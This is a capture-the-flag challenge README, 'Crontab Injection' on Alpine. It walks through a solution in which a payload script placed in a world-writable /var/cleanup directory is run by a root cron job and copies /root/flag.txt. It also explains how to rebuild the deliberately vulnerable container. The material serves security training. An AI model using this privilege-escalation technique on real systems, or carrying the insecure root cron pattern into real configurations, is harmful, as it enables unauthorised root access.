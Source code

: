 # Challenge 9 — Crontab Injection (Alpine)

## Description
Exploit a root cron job that blindly runs any executable dropped in **/var/cleanup**. Use it to read the protected flag at **/root/flag.txt**.

# Solution
1) Open a shell in the container.  
   `docker exec -it challenge9 bash`

2) Read the breadcrumb.  
   `cat /home/ctfuser/NOTICE.txt`

3) Confirm the schedule and the script.  
   `cat /etc/crontabs/root`  
   `cat /usr/local/bin/cleanup.sh`

4) Drop a payload into `/var/cleanup/` and make it executable.
   ```bash
   cat > /var/cleanup/pwn.sh <<'EOF'
   #!/usr/bin/env bash
   cat /root/flag.txt > /tmp/flag.out
   chmod 644 /tmp/flag.out
   EOF
   chmod +x /var/cleanup/pwn.sh
   ```

5) Wait up to one minute for cron to run. Optional: watch the log.  
   `tail -f /var/log/cleanup.log`

6) Read the flag.  
   `cat /tmp/flag.out`

Why this works: the cron job runs as root and executes anything in a world‑writable directory. Your payload reads the flag and drops it somewhere you can access.

# Recreating this challenge
Follow these steps to rebuild the challenge from scratch without using `build.sh`.

**1. Make a working folder.**  
Create `challenge9/app`. All files below go into the `app` folder.

**2. Create the flag.**  
Make a file named `flag.txt` with the contents: `flag{cron_cleanup_got_pwned}`.

**3. Write the vulnerable cleanup script.**  
Create `cleanup.sh` that:
- uses **bash** (`#!/usr/bin/env bash`),
- loops through every file under `/var/cleanup/`,
- if a file is **regular** and **executable**, runs it with `/bin/bash`,
- exits on errors (`set -euo pipefail`).  
Mark it executable (`chmod 755 cleanup.sh`).

**4. Add a breadcrumb for players.**  
Create `NOTICE.txt` explaining that a root cron task runs `/usr/local/bin/cleanup.sh` every minute and processes executables placed in `/var/cleanup/`. Mention the log at `/var/log/cleanup.log`.

**5. Write a Dockerfile (high level).**  
In the Dockerfile, do the following:
- Start from **Alpine 3.20**. Install **bash**.
- Create a non‑root user named **ctfuser** with `/bin/bash` as their shell.
- Copy `flag.txt` to `/root/flag.txt` and set its permission to **600**.
- Copy `cleanup.sh` to `/usr/local/bin/cleanup.sh` and make it **755**.
- Create the directories `/var/cleanup` and `/var/log`; set `/var/cleanup` to **777** so any user can drop files there.
- Copy `NOTICE.txt` to `/home/ctfuser/NOTICE.txt` and change ownership to `ctfuser`.
- Create the **root crontab** file at `/etc/crontabs/root` with one entry that runs
  `/bin/bash /usr/local/bin/cleanup.sh` **every minute**, appending output to `/var/log/cleanup.log`.
- For the container command, start BusyBox cron and keep the container alive. Important: run cron with the **correct spool directory**: `crond -c /etc/crontabs`. Keep it alive using a long‑running command (e.g., `tail -f /dev/null`).

**6. Build the image.**  
From the directory that contains the `app` folder, run:  
`docker build -t challenge9:latest app`

**7. Start the container (detached).**  
`docker run -d --name challenge9 challenge9:latest /bin/bash -lc "/usr/sbin/crond -l 8 -c /etc/crontabs; tail -f /dev/null"`

**8. Quick verification (optional).**  
- `docker exec challenge9 sh -lc 'cat /etc/crontabs/root'`  (see the cron line)  
- `docker exec challenge9 sh -lc 'ps | grep crond'`         (cron is running)  
- `docker exec challenge9 sh -lc 'ls -ld /var/cleanup'`     (directory is world‑writable)

At this point the challenge is ready for players to solve manually using the steps above.

---

**Validation:** `solve.sh` is for validation only. Players should solve it manually.
